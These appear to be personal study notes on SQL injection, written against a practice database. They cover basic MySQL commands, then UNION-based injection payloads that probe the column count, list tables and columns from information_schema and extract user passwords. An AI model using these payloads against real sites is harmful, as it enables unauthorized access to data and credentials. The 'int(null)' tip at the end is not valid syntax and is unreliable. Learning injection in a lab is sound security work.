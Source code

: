 # SQL Injection Notes

This section covers SQL Injection techniques

## Basic SQL Commands 

```
show databases;
```

```
use sqldemo;
```

```
show tables;
```

```
select * from users;
```

```
select age from users where username = "jeremy";
```

```
select age from users where username = "jeremy";
```

## UNION select 
When we union select, we can only select the same amount of columns in the query. 

```
jeremy' union select null,null,null 
```

To explain the above. If we do:
```
jeremy' union select null
```
Then nothing gets returned, same for if we do:
```
null, null
```

However if we do:
```
null,null,null
```

We get a valid response. This is because the database is parsing three sets of information. However is only displaying Username and Email, its likely that the website only wants to display those two bits of info. So lets try and manipulate this:

We can use the third null to inject our commands.

Now we can use this to get more information about the database:
```
jeremy' union select null, null, table_name from information_schema.tables#
```

Now we have all the table names, we can get the column names :

```
jeremy' union select null, null, column_name from information_schema.columns#
```

Now lets get jeremy's password. 

List the tables, we are working with injection0x01 in this case. 

```
jeremy' union select null, null, password from injection0x01#
```

If you try to union select a string on a column that is an integer, you can get an error.

you can do:

```
int(null)
```
to fix it. 
